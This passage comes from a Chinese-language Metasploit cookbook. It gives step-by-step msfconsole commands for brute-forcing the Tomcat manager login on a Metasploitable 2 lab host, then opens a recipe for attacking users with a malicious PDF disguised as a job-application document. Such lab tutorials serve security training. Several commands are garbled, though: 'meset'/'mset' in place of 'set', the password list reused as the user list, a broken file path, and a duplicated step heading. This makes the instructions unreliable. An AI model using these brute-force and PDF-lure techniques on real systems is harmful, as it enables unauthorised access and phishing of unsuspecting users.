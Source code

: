 4.  使用 Tomcat Application Manager Login Utility。

    ```
    use auxiliary/scanner/http/tomcat_mgr_login 
    ```

5.  显示模块的可用选项。

    ```
    show options
    ```

    > 要注意我们有很多设置为“是”的项目，它们都是必须的。我们使用它们的默认值。

6.  设置`Pass_File`：

    ```
    PASS_FILE meset /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
    ```

7.  设置`Pass_File`：

    ```
    USER_FILE mset /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
    ```

8.  设置目标的`RHOST`，这里我们选择我们的 Metasploitable 2 主机：

    ```
    set RHOSTS 192.168.10.111
    ```

9.  将`RPORT`设置为 8180：

    ```
    set RPORT 8180
    ```

10.  执行漏洞利用：

    ```
    Exploit
    ```

### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 来利用 Metasploitable 2 靶机上的 Tomcat 漏洞。我们以启动控制台并搜索所有已知的 Tomcat 模块来开始。在选择 Tomcat 登录利用模块之后，我们设置了选项并执行了漏洞利用，这让我们能够爆破 Tomcat 登录。Metasploit 使用提供的用户名和密码文件。并尝试爆破 Tomcat 数据库。之后找到生效的登录和密码组合旁边的`+`符号就可以了。

## 6.9 Metasploitable PDF

这个秘籍中，我们会探索如何使用 Metasploit 来执行攻击，使用 Adobe PDF 内嵌模块来利用 PDF 文档漏洞。Adobe PDF 是文档传输的标准。由于它的广泛使用，尤其是由于它的商业用途，我们会通过让用户认为他们打开了来自求职岗位的正常 PDF 文档来攻击用户的机器。

### 准备

需要满足下列要求：
